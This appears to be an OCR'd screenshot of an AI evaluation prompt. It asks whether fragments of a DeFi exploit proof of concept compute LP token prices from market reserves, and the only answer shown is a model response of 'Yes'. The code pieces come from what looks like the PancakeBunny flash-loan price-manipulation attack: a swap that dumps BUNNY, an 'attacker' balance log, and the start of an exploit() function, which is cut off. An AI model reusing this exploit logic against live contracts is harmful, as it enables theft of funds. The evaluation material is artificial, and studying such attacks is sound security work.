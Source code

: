 │             IERC20(BUNNY).transfer(address(WBNBBUNNY), amountIn);                                                                                                                                                                                     │
│             WBNBBUNNY.swap(amountOut, 0, address(this), hex"");                                                                                                                                                                                       │
│                                                                                                                                                                                                                                                       │
│             emit log_named_decimal_uint(                                                                                                                                                                                                              │
│                 "After dumping all BUNNY, WBNB balance of attacker:",                                                                                                                                                                                 │
│                 IERC20(WBNB).balanceOf(address(this)),                                                                                                                                                                                                │
│                 IERC20(WBNB).decimals()                                                                                                                                                                                                               │
│             );                                                                                                                                                                                                                                        │
│         }                                                                                                                                                                                                                                             │
│     }                                                                                                                                                                                                                                                 │
╰───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {"1": "Yes"}                                                                                                                                                                                                                                          │
╰───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─────────────────────────────────────────────────────────────────────────────────────────────────────────────── Single Choice Scenario ────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price based on the market reserves/AMMprice/exchangeRate OR the custom token balanceOf/totalSupply/amount/liquidity calculation                                                │
│ Code:                                                                                                                                                                                                                                                 │
│     function exploit() public {                                                                                                                                                                                                                       │
│         uint256 wbnbAmount = IERC20(WBNB).balanceOf(address(this)) - 15_000e18;                                                                                                                                                                       │
│                                                                                                                                                                                                                                                       │
│         // Manipulate BunnyMinter._zapAssetsToBunnyBNB - deposit liquidity                                                                                                                                                                            │